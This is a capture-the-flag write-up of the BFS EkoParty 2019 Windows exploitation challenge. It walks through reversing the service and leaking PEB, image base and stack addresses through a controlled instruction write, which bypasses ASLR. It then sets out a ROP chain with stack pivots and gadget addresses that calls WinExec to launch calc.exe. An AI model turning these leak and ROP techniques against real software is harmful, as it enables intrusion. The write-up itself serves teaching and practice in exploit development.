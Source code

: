 ```yaml
---
layout: post
title: Solving the BFS Ekoparty 2019 Exploitation Challenge
tags: []
---
```



This is a quick write up about how one of our team members, Thanasis, solved the challenge for EkoParty 2019. This was a fun challenge and thanks to Lukas and Nico from Blue Frost Security for making it happen(and for supporting our community).

More information about the challenge can be found at:  

[https://labs.bluefrostsecurity.de/blog/2019/09/07/bfs-ekoparty-2019-exploitation-challenge/](https://labs.bluefrostsecurity.de/blog/2019/09/07/bfs-ekoparty-2019-exploitation-challenge/)

The application as the requirements provided, need to run in windows 10 x64 (RS6) version and the goal is to bypass ASLR and execute a calc.exe process. 


By opening the application we can see via netstat that it binds on port 54321 on 0.0.0.0 (all the machine’s interfaces).  

By opening Ghidra and going to the main function it is obvious that some checks need to bypassed in order to correctly send a payload to the application.
In Ghidra, if we check the function that is called after the new connection is accepted, we see this: 

[![](https://github.com/trickster0/trickster0.github.io/raw/master/assets/img/favicons/1.png)](https://github.com/trickster0/trickster0.github.io/raw/master/assets/img/favicons/1.png)


Upon first check, it checks for the first 0x10 bytes(16 chars) as a header. 
The second and third checks: If the header starts with 0x393130326f6b45(Ekoparty2019) then we are allowed to send a user_message as long as it is smaller than 0x201 bytes(513 chars).
The last fourth check is quite important, we can send all this packet structure but it needs to be aligned correctly for 8 bytes. Meaning we could send 16,24,32 and so on.
After we succeed in sending a big buffer, it appears that the application crashes after 529 bytes or so. By sending 528 bytes structured correctly with the cookie included in the beginning, we notice that before the calling function sub_140001170, we actually control the RAX, which is the 513 bytes.
Before this, there is this instruction

`lea     rcx, unk_7FF6A8A9E520`  
 unk_7FF6A8A9E520, holds an array with this structure

[![](https://github.com/trickster0/trickster0.github.io/raw/master/assets/img/favicons/2.png)](https://github.com/trickster0/trickster0.github.io/raw/master/assets/img/favicons/2.png)

By sending the 513 characters, for example as A or \x41 we can make it so the function will return our byte + the rest of the pattern. In this case c3c3c3c3 + ourbyte+488b01.
The function sub_140001170 before it returns this value turns it to little endian, making it ourbyte+488b01c3c3c3c3. So we get 41488b01c3c3c3c3.
This value will be used in WriteProcessMemory as lpBuffer, basically copying these bytes to the function sub_7FF6A8A91000 as instructions allowing to control what we can execute when we reach it.
Although this is quite good, it provides a limitation of instructions, meaning we can only use instructions byte+488b01c3c3c3c3.
I made a quick script in python producing all the values in a file

`byte=0x00
endbyte=0xff
start ="848b01c3c3c3"
for i in xrange(byte,endbyte+1):
            print format(i,'X')+ start`


With a one-liner bash I got all the values:

`for i in $(cat list_instructions);do echo -e "\n$i" && rasm2 -b 64 -D $i ; done  > instructions`  

One good thing in this case is that we can actually control the RCX from our input buffer with the characters provided from 513 till 528.
The first thing I had to do was, get the process address from PEB.
By sending in our payload these are the last bytes: 
“\x65\x65\x65\x65\x65\x65\x65\x65\x60\x00\x00\x00\x00\x00\x00\x00”
We could achieve and acquire the PEB. \x65 is meant for the combination from the previous instructions.
65488b01c3 

`0:  65 48 8b 01             mov    rax,QWORD PTR gs:[rcx]
4:  c3                      ret`


It is well known that in x64 bit windows, GS register is a special register which points to PEB by providing the accurate offset. In this case since we could control RCX, we pointer GS directly to the PEB which is at offset 0x60 hence the highlighting.
Since the application will always sends us back the data leaked we can get this address and use it.
The next step would be to get the Image Base Address of the application.
Image Base Address is located from the PEB + 0x10 offset. In this case we had to set the address + 0x10 as a pointer to RCX to be able to leak the address.
In this case, according to our possible instructions we chose:

`0:  47 8b 01                mov    rax,QWORD PTR [rcx]
3:  c3                      ret`


The first byte 47 and these as before are the last bytes of our payload:
“\x47\x65\x65\x65\x65\x65\x65\x65 + address+0x10”

As an end goal we need to create a ROP chain to execute calc.exe.
Since we would like to bypass ASLR, leakage is already useful but in case we would need to execute something, we would have to bypass DEP as well.
In this case it is good that we have, in the beginning of the application, a winexec call.

[![](https://github.com/trickster0/trickster0.github.io/raw/master/assets/img/favicons/3.png)](https://github.com/trickster0/trickster0.github.io/raw/master/assets/img/favicons/3.png)

Therefore, in the end we will call calc.exe through winexec but, winexec requires that the application will be executed to be pointed at, hence a pointer that points to the string calc.exe and a null terminator.
Somehow I had to be able to find that place in memory with my string. The best way was to get the StackBase Limit and get towards the stack base to find where it is.
First, I had to leak StackBase Limit.
StackBaseLimit is in the TEB at 0x10 offset through the GS register.
The initial request I used :

`0:  65 48 8b 01             mov    rax,QWORD PTR gs:[rcx]
4:  c3                      ret`

I controlled the RCX by setting it to 0x10.
After actually getting the leaked address of the Stack Base Limit, it is time for a loop towards the Stack Base to find the correct string which would be calc.exe.
By doing a loop, I started leaking the memory cells of the stack up to a point where it detected my string.
The moment the string was found, I saved into a counter and multiplied by 0x08 to get how many cells down the stack I had to go.
So now I had the address of the string.
In the above scenario I used: 

`
0:  47 8b 01                mov    rax,QWORD PTR [rcx]
3:  c3                      ret`

With RCX as the Stack Base Limit and constantly adding 0x08 to it.
The next step would be to get the winexec’s address on the stack. By checking the .rdata of the application I could see the offset of it.

pic4 [![](https://github.com/trickster0/trickster0.github.io/raw/master/assets/img/favicons/4.png)](https://github.com/trickster0/trickster0.github.io/raw/master/assets/img/favicons/4.png)

In this case, I need to leak the address from Image Base Address + 0x9010 offset.
By using exactly the same instructions as before:

`0:  47 8b 01                mov    rax,QWORD PTR [rcx]
3:  c3                      ret`

Then adding RCX as the Image Base Address+0x9010 , I get the leaked address for Winexec on the stack.
For the final request to the application I used 

`0:  51                      push   rcx
1:  48 8b 01                mov    rax,QWORD PTR [rcx]
4:  c3                      ret`

I set the RCX to a pivot gadget “add rsp,78h ; ret”, so I can stack pivot.
I used Ropper and rp++ to get gadgets out of the application.
Thankfully, the ret instruction gets us to a point in our buffer.
According to MSDN Wincalc requires 2 arguments, the name of the application and a number which will set the mode of the window.
In windows 10 x64 , the calling convention is rcx,rdx,r8,r9 and top of the stack.
The structure of the packet is this. The whole packet is the cookie + 528 characters.
Structure:

`|16 junk bytes| - padding
|pop_rax_gadget| - Pop Image Base Address for having a valid address on RAX because the only pop rdx and pop rdx gadgets set bad values to it.
|Image Base Address – 0x08| - valid address
|pop_rdx_gadget| - pop rdx gadget to put 0x01 for the Wincalc second argument.
|0x01|- Winexec UINT   uCmdShow
|pop_rax_gadget| - again for the same reason that the pop rcx gadget will set bad value to rax
|pop_rcx_gadget| - set the pointer address that points to calc.exe\x00
|address_pointing_calc| - address that points to calc.exe\x00
|72 junk bytes| - padding
|ret_gadget| - just a return gadget to fix the stack alignment to 16-byte format, because CreateProcessA is called inside the Winexec function which includes movabs instruction. Movabs instructions check if the stack is aligned and if not it will raise an exception.
|winexec_leaked_address| - winexec address on the stack.
|add_rsp_0x78| - adds to current RSP + 0x78 bytes to reach the next stack pivot.
|120 junk bytes| - padding.
|add_rsp_0x78| - adds to current RSP + 0x78 bytes to reach the next stack pivot.
|120 junk bytes| - padding.
|add_rsp_0x28| - adds to current RSP + 0x28 bytes to reach the next stack pivot.
|40 junk bytes| - padding.
|add_rsp_0x58| - adds to current RSP + 0x58 bytes to reach the original return pointer address and continue the execution of the application instead of crashing it.
|8 junk bytes| - padding.
|calc.exe\x00| - string to set in memory.
|15 junk bytes| - padding.`


Gadgets Used:

`0x14000158b: add rsp, 0x78 ; ret  ;  

0x0000000140004525: pop rdx; add byte ptr [rax], al; cmp word ptr [rax], cx; je 0x4530; xor eax, eax; ret; 

0x140001167: pop rax ; ret  ; 

0x00000001400089ab: pop rcx; or byte ptr [rax], al; add byte ptr [rax - 0x77], cl; add eax, 0x4b12; add rsp, 0x48; ret;

0x0000000140001164: add rsp, 0x58; ret; 

0x14000158f: ret  ;  

0x00000001400011d5: add rsp, 0x28; ret;`


Full Working exploit: https://github.com/trickster0/BFS-Ekoparty-2019-challenge

Proof of Concept:

[![](https://github.com/trickster0/trickster0.github.io/raw/master/assets/img/favicons/5.png)](https://github.com/trickster0/trickster0.github.io/raw/master/assets/img/favicons/5.png)


Results:
[![](https://github.com/trickster0/trickster0.github.io/raw/master/assets/img/favicons/unknown.png)](https://github.com/trickster0/trickster0.github.io/raw/master/assets/img/favicons/unknown.png)
